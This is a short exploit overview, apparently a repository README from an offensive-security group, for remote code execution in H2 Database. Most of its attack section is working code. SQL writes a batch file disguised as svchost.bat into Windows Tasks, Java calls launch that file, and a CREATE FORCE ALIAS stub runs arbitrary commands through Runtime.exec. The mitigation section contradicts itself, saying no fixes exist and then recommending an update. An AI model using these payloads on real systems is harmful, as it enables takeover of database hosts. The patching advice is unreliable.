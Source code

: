 # H2 Database Remote Code Execution (RCE) - Exploit Overview

**Date:** 17/07/2024  
**Author:** ViperX Offensive Security

## Affected Versions
H2 Database versions 1.0 to 2.3.230 are vulnerable to remote code execution (RCE).

## Exploit Flow
The exploitation strategy varies based on the version of the H2 Database:

1. **For Versions < 1.4:**
    - **Step 1:** Create a 'dummy' table within the database.
    - **Step 2:** Use the `SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'` command to write output logs to a file located at `C:\Windows\Tasks\svchost.bat`.
    - **Step 3:** Depending on the specific version, execute the `.bat` file to achieve RCE:
        - For older versions, utilize `org.h2.util.StartBrowser.openURL`.
        - For newer versions, utilize `org.h2.tools.Server.openBrowser`.

2. **For Versions ≥ 1.4:**
    - **Step 1:** Exploit the 'CREATE ALIAS' function to execute Java code directly.

## Detailed Exploit Steps

1. **Creating a Dummy Table and Writing Logs:**
    ```sql
    CREATE TABLE dummy (id INT);
    SCRIPT SIMPLE NODATA NOSETTINGS TO 'C:\Windows\Tasks\svchost.bat';
    ```

2. **Executing the Batch File:**
    - **For Older Versions:**
        ```java
        org.h2.util.StartBrowser.openURL('file:///C:/Windows/Tasks/svchost.bat');
        ```
    - **For Newer Versions:**
        ```java
        org.h2.tools.Server.openBrowser('file:///C:/Windows/Tasks/svchost.bat');
        ```

** H2DB Versions >= 1.4 . **Java Code Execution via CREATE ALIAS:**
```java
CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
$$;
```

By leveraging these methods, an attacker can perform remote code execution on vulnerable H2 Database instances, potentially gaining control over the host system.

## Mitigation
Since no fixes are currently available, it is recommended to implement the following measures to protect against this vulnerability:

- Update to the latest version of H2 Database.
- Implement strict access controls to limit exposure to untrusted networks.
- Regularly audit and monitor database configurations and activity.

For further details and assistance, please contact ViperX Offensive Security.
